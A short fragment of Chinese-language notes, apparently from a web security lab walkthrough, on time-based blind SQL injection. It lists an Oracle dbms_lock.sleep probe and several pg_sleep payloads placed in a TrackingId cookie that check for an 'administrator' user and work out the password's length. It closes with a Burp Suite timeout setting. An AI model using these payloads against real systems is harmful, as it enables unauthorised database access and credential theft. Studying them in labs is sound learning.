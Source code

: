 Oracle 探测（较少用，通常需要高权限）

```
'; BEGIN dbms_lock.sleep(5); END; -- 
```



```
Cookie: TrackingId=lDSW4FEA5hmSQ7nN'||(select+case+when+(1=1)+then+pg_sleep(7)+else+pg_sleep(0)+end)||';
```

有延时

```
Cookie: TrackingId=lDSW4FEA5hmSQ7nN'||(select+case+when+(username='administrator')+then+pg_sleep(5)+else+pg_sleep(0)+end+from+users)||'; 
```

有延时

```
Cookie: TrackingId=lDSW4FEA5hmSQ7nN'||(select+case+when+(length(password)=20)+then+pg_sleep(5)+else+pg_sleep(0)+end+from+users+where+username='administrator')||';
```

有延时 密码是20位



在burpsuite的setting中： 设置为3秒

![image-20250807161501692](assets/image-20250807161501692.png)
